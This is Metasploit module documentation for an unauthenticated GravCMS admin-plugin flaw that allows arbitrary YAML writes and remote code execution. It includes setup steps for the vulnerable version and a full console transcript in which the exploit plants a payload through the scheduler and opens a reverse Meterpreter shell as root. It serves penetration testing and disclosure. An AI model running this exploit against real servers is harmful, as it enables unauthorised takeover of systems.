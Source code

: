 ## Vulnerable Application

### Description

This module exploits arbitrary config write/update vulnerability to achieve remote code execution. Unauthenticated users can execute a
terminal command under the context of the web server user.

In versions prior to 1.10.10 of the admin component, an unauthenticated user can execute some methods of administrator controller
without needing any credentials. Particular method execution will result in arbitrary YAML file creation or content change of existing
YAML files on the system. Note that the fixed admin component (v1.10.10) has been released with GravCMS version 1.7.9.

Technical details about the vulnerability can be found at
[here](https://pentest.blog/unexpected-journey-7-gravcms-unauthenticated-arbitrary-yaml-write-update-leads-to-code-execution/) .

### Setup

GravCMS requires only PHP and a web server to run. Please visit following url to find out required php packages.

[https://learn.getgrav.org/17/basics/requirements](https://learn.getgrav.org/17/basics/requirements)

```
wget https://getgrav.org/download/core/grav-admin/1.7.8
unzip -x 1.7.8
chown -R www-data:www-data grav-admin
```

Once you finished the installation, visit the GravCMS and complete the admin user creation process.

Scheduler is not enabled in the default installation. It has a very important role during the exploitation.
To finish up the installation, execute the following command to enable the scheduler.

```
(crontab -l; echo "* * * * * cd /var/www/html/grav-admin;/usr/bin/php bin/grav scheduler 1>> /dev/null 2>&1") | crontab -
```

## Verification Steps

1. Follow [Setup](#setup) and install the application.
2. Run `msfconsole`
3. Set `RHOSTS`
4. Set `LHOST`
5. Execute `run` command.
6. You should get a shell.

## Options

### TARGETURI

The base path to GravCMS. The default value is `/`.

## Scenarios

```
msf >
msf > use exploit/linux/http/gravcms_exec
[*] Using configured payload php/meterpreter/reverse_tcp
msf exploit(linux/http/gravcms_exec) > set RHOSTS 192.168.179.131
RHOSTS => 192.168.179.131
msf exploit(linux/http/gravcms_exec) > set LHOST 172.26.253.227
LHOST => 172.26.253.227
msf exploit(linux/http/gravcms_exec) > options

Module options (exploit/linux/http/gravcms_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.179.131  yes       The target host(s), range CIDR identifier, or hosts file with
                                        syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.26.253.227   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf exploit(linux/http/gravcms_exec) > check
[*] 192.168.179.131:80 - The target appears to be vulnerable.
msf exploit(linux/http/gravcms_exec) > run

[*] Started reverse TCP handler on 172.26.253.227:4444
[*] Sending request to the admin path to generate cookie and token
[+] Cookie and CSRF token successfully extracted !
[*] Implanting payload via scheduler feature
[+] Scheduler successfully created ! Wait for 1 minute...
[*] Sending stage (39282 bytes) to 172.26.240.1
[*] Cleaning up the scheduler...
[+] The scheduler config successfully cleaned up!
[*] Meterpreter session 1 opened (172.26.253.227:4444 -> 172.26.240.1:53912) at 2021-04-11 15:32:01 +0300

meterpreter > pwd
/var/www/html/grav-admin
meterpreter > getuid
Server username: root (0)
```
